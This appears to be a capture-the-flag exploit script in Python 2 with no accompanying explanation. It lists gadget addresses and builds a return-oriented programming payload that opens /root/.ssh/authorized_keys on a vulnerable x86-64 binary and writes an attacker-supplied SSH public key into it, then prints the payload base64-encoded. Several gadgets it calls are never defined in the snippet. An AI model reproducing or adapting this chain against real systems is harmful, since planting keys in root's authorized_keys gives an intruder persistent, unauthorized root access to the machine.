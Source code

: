 ```
prdx = 0x000000000040036a# pop rdx; ret;
mov_eax_fff = 0x0000000000400394# mov eax, 0xffffffff; xor rcx, rcx; ret;
shr_eax = 0x0000000000400370# shr eax, 1; ret;
not_al = 0x000000000040036d# not al; adc cl, 0xe8; ret;

leave_ret = 0x000000000040039c# leave; ret;

payload = '000000077373682D727361000000030100010000080100AA838C7400F1A8CC2E'.decode('hex')
payload += '/root/.ssh/authorized_keys'.ljust(0x20,'\x00') 
payload += '\nssh-ed25519 AAAAC3NzaCxxxxxxxxxxxxxxxxxxxxxxxxLUMUMEaHnPM\n'.ljust(0x60,'a') # 0x60
payload += p32(int(float2bin_32(6295776.01),2)) + p32(int(float2bin_32(2.01),2)) # 0x601160
payload += p32(int(float2bin_32(3.01),2)) + p32(int(float2bin_32(6295808.01),2)) # 0x601168
payload = payload.ljust(0x308,'a')
# rdi = 0x6010c0
payload += p64(prdx) + p64(0x601160)
payload += p64(movss_xmm0) + p64(cvtss2si_esi)
payload += p64(mov_rdi_rsi_prdx) + p64(0)
# rsi = 2
payload += p64(prdx) + p64(0x601164)
payload += p64(movss_xmm0) + p64(cvtss2si_esi)
# rdx = 0
payload += p64(prdx) + p64(0)
# rax = 5
payload += p64(mov_eax_fff)
payload += p64(shr_eax)*22
payload += p64(not_al)
payload += p64(shr_eax)
payload += p64(not_al)
payload += p64(shr_eax)*6
# syscall
payload += p64(syscall)

# rdi = 3
payload += p64(prdx) + p64(0x601168)
payload += p64(movss_xmm0) + p64(cvtss2si_esi)
payload += p64(mov_rdi_rsi_prdx) + p64(0)
# rsi = 0x6010e0
payload += p64(prdx) + p64(0x60116c)
payload += p64(movss_xmm0) + p64(cvtss2si_esi)
# rdx = 0x50
payload += p64(prdx) + p64(0x52)
# rax = 4
payload += p64(mov_eax_fff)
payload += p64(shr_eax)*23
payload += p64(not_al)
payload += p64(shr_eax)*6
# syscall
payload += p64(syscall)
payload = payload.ljust(0x817,'a')

print base64.b64encode(payload)
print len(base64.b64encode(payload))
```

